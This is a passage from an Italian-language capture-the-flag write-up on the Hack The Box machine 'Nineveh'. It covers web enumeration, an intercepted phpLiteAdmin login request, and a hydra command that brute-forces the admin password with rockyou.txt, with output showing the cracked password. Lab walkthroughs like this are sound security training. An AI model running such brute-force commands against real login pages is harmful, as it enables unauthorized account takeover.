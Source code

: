 Visitando http://10.10.10.43/server-status otteniamo un errore 403 

Forbidden
You don't have permission to access /server-status on this server.
Apache/2.4.18 (Ubuntu) Server at 10.10.10.43 Port 80

Non abbiamo  i permessi 

Visitando https://10.10.10.43/secure_notes/ ci troviamo di fronte un'immagine 

Questo potrebbe essere ciò a cui si riferiva il commento "controlla la tua cartella segreta". Salviamo l'immagine, potrebbe contenere un segreto. Lo esamineremo più tardi.

Visitando https://10.10.10.43/db/ ci troviamo di fronte un prompt di login di un applicazione 
`phpLiteAdmin v1.9` e un messaggio di warning 

```
Warning: rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114
```

Ho provato con delle credenziali di admin e  non ha funzionato proverò con hydra 
Prima intercettiamo una richiesta con burp per vedere quali argomenti dare a hydra

```
POST /db/index.php HTTP/1.1
Host: 10.10.10.43
Cookie: PHPSESSID=mdreditl0mjl02ku2fp9vvg3t4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.43/db/
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: https://10.10.10.43
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

password=admin&remember=yes&login=Log+In&proc_login=true

```

Utilizziamo hydra

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-23 03:58:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[STATUS] 1341.00 tries/min, 1341 tries in 00:01h, 14343058 to do in 178:16h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-23 03:59:46


```